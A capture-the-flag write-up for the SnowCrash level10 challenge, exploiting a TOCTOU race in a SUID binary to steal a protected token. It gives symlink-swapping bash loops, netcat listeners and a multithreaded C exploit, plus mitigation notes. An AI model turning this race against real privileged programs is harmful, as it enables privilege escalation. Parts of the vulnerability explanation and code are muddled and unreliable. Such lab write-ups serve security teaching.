



# Level10 – SUID TOCTOU Exploit
## Level Overview

**Category: Privilege Escalation / SUID Exploit**

**Description:**
The level10 binary is owned by flag10 and has the SUID bit set. It allows sending files to another host, but only if the user has “access” to the file. The goal is to retrieve the token file owned by flag10, which the current user (level10) cannot normally read.


## Analysis
* The binary has SUID set → runs as flag10.

* The token is readable only by flag10.



Executing the program without arguments results in message that we should provide a file and a host
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's pass the token file and the loop back address as the host. 

Since we don't the read permission for the file the program outputs `You don't have access to token`

```
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

Let's create a file with some data and retry

```
level10@SnowCrash:~$ ./level10 /tmp/token 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
The program tries to connect to the port 6969, but there is nothing to connect to

We can listen to upcomming connection on port 6969 using `netcat`

```
level10@SnowCrash:~$ ./level10 /tmp/token 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
```
```
level10@SnowCrash:~$ nc -l 6969
.*( )*.
content
```

The program connected to the port and wrote something that look like a face or a regex pattern and the content of the file

Let's trace the library calls made by the program to understand what it does




Here is the major instructions done by the program :

1. Performs an access check (access())
2. Connect to a listening socket on port 6969
3. Opens the file (open())
4. reads the data contained in the file and write it to the socket


## Identifying the Vulnerability
Reading through the access function's linux manpage we find an interesting things


>   The check is done using the calling process's real UID and GID,rather than the effective IDs as is done when actually attemptingan operation (e.g., open(2)) on the file.  Similarly, for the rootuser, the check uses the set of permitted capabilities rather thanthe set of effective capabilities; and for non-root users, thecheck uses an empty set of capabilities.

>Warning: Using these calls to check if a user is authorized to,for example, open a file before actually doing so using open(2)creates a security hole, because the user might exploit the shorttime interval between checking and opening the file to manipulateit.  For this reason, the use of this system call should beavoided.  (In the example just described, a safer alternativewould be to temporarily switch the process's effective user ID tothe real ID and then call open(2).)


The `access()` function checks file permissions using the calling process's 
real UID (level10), not the effective UID (flag10 from SUID). This means 
`access()` will fail when checking the token file since level10 doesn't 
have read permissions.

However, `open()` operates using the effective UID (flag10), so it CAN 
actually read the token file. This creates the TOCTOU vulnerability:
1. `access()` checks permissions → FAIL (using real UID)
2. Program continues believing file is inaccessible
3. `open()` actually opens the file → SUCCESS (using effective UID)

The race condition occurs between steps 1 and 3, where we can swap 
the file being checked.


> This vulnerability is called Time-of-Check to Time-of-Use (TOCTOU) is a class of software vulnerabilities that arise from race conditions. These vulnerabilities occur when there is a time gap between the checking of a system's state and the use of the results of that check. During this interval, an attacker can alter the state of the system, leading to unauthorized actions or security breaches.


# Cracking process

The idea behind this exploit is utilize the time between acessing the file and opening it for reading we already know that the file is allower to be read by flag10 we just need to create a symlink to a file we have access to and when it passed the access syscall then we switch it to point to the token file.

## Method 1

We'll create an infinite loop to do exactly that 
```
#!/bin/bash

i=10
while [ i > 0 ]; do
	ln -sf /var/crash/fake_or /var/crash/fake
	ln -sf /home/user/level10/token /var/crash/fake
done
```

and we'll start a second infinite loop that runs the binary with the link

```
while true; do
    /home/user/level10/level10 /var/crash/fake 127.0.0.1
done
```

and we'll start a third infinite loop using netcat to receive the message
```
while true; do
    nc -l 6969
done
```


so as we can see the flag is captured just in the right time when it switches the link to point to the token


## Method 2

Another method to exploit this vulnerability is using threads to create a race condition. One thread executes the vulnerable program while another thread simultaneously manipulates the filesystem, attempting to replace the checked file with the target file during the time gap between `access()` and `open()`.

Here's our multithreaded exploit code:
```c
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


void* myThreadFunc(void *arg) {
    printf("Second Thread is running...\n");
    system("touch /tmp/level10/fake_token && /home/user/level10/level10 /tmp/level10/fake_token 127.0.0.1");
    return NULL;
}

int main() {
    pthread_t thread;

    system("mkdir -p /tmp/level10");

    int i = 0;
    while (i < 10) {
        pthread_create(&thread, NULL, myThreadFunc, NULL);
        system("ln -sf /home/user/level10/token /tmp/level10 ; mv /tmp/level10/token /tmp/level10/fake_token ; rm /tmp/level10/fake_token");
        pthread_join(thread, NULL);
        i++;
    }

    return 0;
}
```

What happens during successful exploitation:

1. Thread 1 (myThreadFunc):

- Creates `/tmp/level10/fake_token` (empty, accessible file)
- Calls level10 `/tmp/level10/fake_token 127.0.0.1`
- Program calls `access("/tmp/level10/fake_token", R_OK)` ✓ (passes - we own this file)


2. Thread 2 (main thread) - Racing to execute between `access()` and `open()`:

- Creates symlink: `/tmp/level10/token` → `/home/user/level10/token`
- Moves symlink to: `/tmp/level10/fake_token` → `/home/user/level10/`token


3. Thread 1 continues:

- Program calls `open("/tmp/level10/fake_token", O_RDONLY)`
If race won: Opens the real token file due to symlink
If race lost: Opens empty fake_token file




## Conclusion

This level demonstrates several important security concepts:

**TOCTOU Vulnerabilities:** Race conditions between security checks and resource usage can lead to privilege escalation.

**SUID Dangers:** Programs with SUID bits require careful design to avoid permission confusion between real and effective UIDs.

**Proper Mitigation:** Instead of using `access()` followed by `open()`, secure programs should temporarily switch to the real UID before attempting file operations, or handle permission errors from open() directly.